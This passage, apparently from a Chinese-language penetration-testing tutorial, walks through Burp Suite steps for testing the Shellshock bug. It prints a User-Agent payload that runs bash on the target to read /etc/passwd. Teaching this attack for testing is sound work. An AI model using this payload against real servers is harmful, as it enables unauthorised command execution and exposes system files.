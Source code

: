 1.  现在右键单击它，然后单击**Send it to Repeater**，如下面的屏幕截图所示：![操作步骤...](img/image_07_052.jpg)

1.  转到 repeater 窗口，并将用户代理更改为以下内容：

```
      User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat       /etc/passwd;'

```

看一下下面的屏幕截图：

![操作步骤...](img/image_07_053.jpg)
